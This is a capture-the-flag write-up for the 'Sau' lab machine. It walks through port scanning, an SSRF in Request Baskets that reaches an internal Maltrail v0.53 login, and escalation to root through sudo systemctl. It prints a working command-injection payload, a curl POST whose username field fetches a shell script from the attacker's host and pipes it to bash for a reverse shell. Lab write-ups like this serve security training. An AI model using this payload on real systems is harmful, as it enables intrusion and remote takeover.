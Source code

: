 # Sau

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 10.129.22.88       
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-10 13:15 +08
Nmap scan report for 10.129.22.88
Host is up (0.24s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown
```

Port 80 is being filtered, while port 55555 is open.&#x20;

### Request Baskets SSRF --> Mailtrail RCE

Port 55555 hosted an application that is able to collect and inspect HTTP requests:

<figure><img src="../../.gitbook/assets/image (13) (10).png" alt=""><figcaption></figcaption></figure>

We can create one by clicking on create:

<figure><img src="../../.gitbook/assets/image (10) (12).png" alt=""><figcaption></figcaption></figure>

Tihs acts similar to a webhook, and is able to retrieve requests sent to that unique URL.

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

We are able to set the Responses from the website. as well as where the traffic is being forwarded to, just like we can with Webhooks. Setting the Forward URL to our own HTTP server results in requests being sent there from the machine.

<figure><img src="../../.gitbook/assets/image (9) (3) (1).png" alt=""><figcaption></figcaption></figure>

Since port 80 was being filtered, we can set it to `http://localhost` and try setting all the options to True. Afterwards, sending GET requests to our bucket would result in HTML being returned:

```
$ curl http://10.129.22.88:55555/test
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta http-equiv="X-UA-Compatible" content="IE=edge">
<TRUNCATED>
<div class="bottom noselect">Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```

At the bottom, we can see that port 80 has Mailtrail v0.53 running, which is vulnerable to an unauthenticated RCE exploit.

{% embed url="https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/" %}

To exploit this, we just need to change the forward URL to `http://127.0.0.1/login` and send a POST request via `curl` with a payload like this:

{% code overflow="wrap" %}
```bash
$ curl -X POST --data 'username=;`curl 10.10.14.31/shell.sh|bash`' http://10.129.22.88:55555/test
```
{% endcode %}

We would get a reverse shell as `puma`:

<figure><img src="../../.gitbook/assets/image (5) (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Systemctl --> Root

The user is able to run a command using `sudo`:

```
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

This is easily exploitable to get a `root` shell:

<figure><img src="../../.gitbook/assets/image (14) (2) (6).png" alt=""><figcaption></figcaption></figure>

Rooted!
